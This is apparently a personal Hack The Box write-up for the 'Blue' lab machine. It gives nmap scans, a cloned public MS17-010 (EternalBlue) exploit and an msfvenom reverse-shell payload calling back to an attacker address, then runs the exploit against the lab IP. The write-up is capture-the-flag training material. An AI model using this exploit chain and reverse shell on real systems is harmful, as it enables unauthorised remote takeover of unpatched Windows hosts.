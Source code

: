# Blue Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

``nmap -sC -sV -oA blue 10.10.10.40``

### and

``nmap --script vuln 10.10.10.40``

# ${{\color{purple}Initial Foothold}}\ $

![image](https://user-images.githubusercontent.com/123066149/219156029-61007f6c-1d63-4c56-80c3-b0b229a7d281.png)

# ${{\color{purple}Exploitation}}\ $

### I used this script to run ms-17-010 :
### The most important thing here is not the exploitation but to make a python2 script work with impacket

https://github.com/k4u5h41/MS17-010_CVE-2017-0143

``git clone https://github.com/k4u5h41/MS17-010_CVE-2017-0143``

### There is no need for it for this exploit but the pipes checker works very well :

![blue2](https://user-images.githubusercontent.com/123066149/219165990-17752e32-6dfb-4b7a-ba59-a86b0c56e03f.PNG)


``msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.5 LPORT=1234 -f exe -o ms17-010.exe``

### Change the username to make it work in the exploit 

![image](https://user-images.githubusercontent.com/123066149/219158101-530f4d9d-5ed4-409d-bed3-a0a82bc165cf.png)

``python2.7 send_and_execute.py 10.10.10.40 ms17-010.exe``

![image](https://user-images.githubusercontent.com/123066149/219158641-ace89ab3-225a-4e79-ba19-8d81347e8ca5.png)

![image](https://user-images.githubusercontent.com/123066149/219158807-4134bd30-2ed5-4c02-87f4-583882b6c2e3.png)

# ${{\color{purple}Privilege Escalation}}\ $

### No priv esc because the service runs with system rights

# ${{\color{purple}Point of Improvement}}\ $

* If I have problems with a python 2.7 script and impacket I have to do this :

``sudo python2.7 get-pip.py``

``pip2.7 install --upgrade setuptools``

``python2.7 -m pip install impacket``

![image](https://user-images.githubusercontent.com/123066149/219160110-72dbd5b9-e8ee-4af8-8199-40a5f749e80d.png)

